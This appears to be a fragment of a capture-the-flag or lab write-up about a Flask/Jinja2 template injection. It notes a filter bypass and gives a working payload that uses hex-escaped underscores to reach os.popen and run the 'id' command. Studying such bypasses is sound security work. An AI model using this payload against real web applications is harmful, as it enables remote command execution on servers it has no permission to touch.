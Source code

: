 ![](./IMG/37.png)


> I noticed the filter bypass 
![](./IMG/33.png)

> Try using the payload related to filter bypass
> The command - 'id' will be executed

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
